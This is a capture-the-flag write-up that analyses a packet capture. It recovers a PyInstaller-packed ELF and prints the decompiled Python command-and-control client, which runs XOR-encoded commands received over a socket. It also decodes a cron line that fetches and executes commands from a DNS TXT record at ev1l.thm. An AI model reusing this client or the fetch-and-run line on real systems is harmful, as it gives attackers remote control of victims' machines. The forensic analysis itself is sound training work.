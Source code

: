 # SeeTwo 

**Can you see who is in command and control?**

## Download the task files

evidence,zip 

only one file in a zip file:

### capture.pcap 

It's a pcapng file. 

Open with NetworkMiner for a quick look.

![networkminer](1-networkminer.png)

3 host 
1 file 

### the file: base64_client.octet-stream 

``$: file base64_client.octet-stream``

base64_client.octet-stream: ASCII text

``$: cat base64_client.octet-stream |base64 -d >> client.step2``

``$: file client.step2 ``

client.step2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7714ff204a0a7dcd042276bab94a99bad4d276f0, for GNU/Linux 2.6.32, stripped

It's an elf binary. Try to find something inside. 

```
./pyinstxtractor-ng client.step2 
[+] Processing client.step2
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 11922732 bytes
[+] Found 47 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: client.pyc
[+] Found 74 files in PYZ archive
[+] Successfully extracted pyinstaller archive: client.step2
```
Decomply client.pyc

```
uncompyle6 client.pyc 
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0]
# Embedded file name: client.py
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "// REDACTED //".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))

# okay decompiling client.pyc
```

We have a key "// REDACTED //" and the encoding method for the communication on Port 1337 from host 10.0.2.64 

## find encoded communication

Open wireshark and use filter: tcp.port == 1337

Follow the TCP stream. Stream3 and Stream4 use a base64 encryption for png files. All TCP segments has a chunk after the png IEND section.   

We have a separator: ``separator = "AAAAAAAAAA"``

check manually the method: 

base64 + XOR with key (Cyberchef)

``OBA3SEEDQmhHMC4JNSdGUiQGCVBQXlRRRgYmAwIVW08LPxYmBQMOQ2hfYmMHPCoDE2pDWUUACglIQlZ3Rw0QAAABZFVhQlhABzwAe2dWaW4LGzNGQVlXRhQNGwMnChhdeA==``

Good result:

``uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)``


OBA3SEEDQmhHMC4JNSdGUiQGCVBQXlRRRgYmAwIVW08LPxYmBQMOQ2hfYmMHPCoDE2pDWUUACglIQlZ3Rw0QAAABZFVhQlhABzwAe2dWaW4LGzNGQVlXRhQNGwMnChhdeA==

uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)

**Collect all communication chunks**

``$: tshark -r capture.pcap -Y "tcp.port == 1337" -T fields -e data |xxd -r -p > capture.base64.full``

I used sublime text editor to cut all not relevant part. 

the goal 

![xor](4-c2-capture_blur.png)

We can answer for all answer except the flag. 

## find the flag

We can see a cronjob with base64 encryption, try it

```
$: echo "L2Jpbi9zaCAtYyAic2ggLWMgJChkaWcgZXYxbC50aG0gVFhUICtzaG9ydCBAbnMuVEhNe1//REDACTED//" | base64 -d
/bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.// REDACTED //.thm)"
```


**DONE**








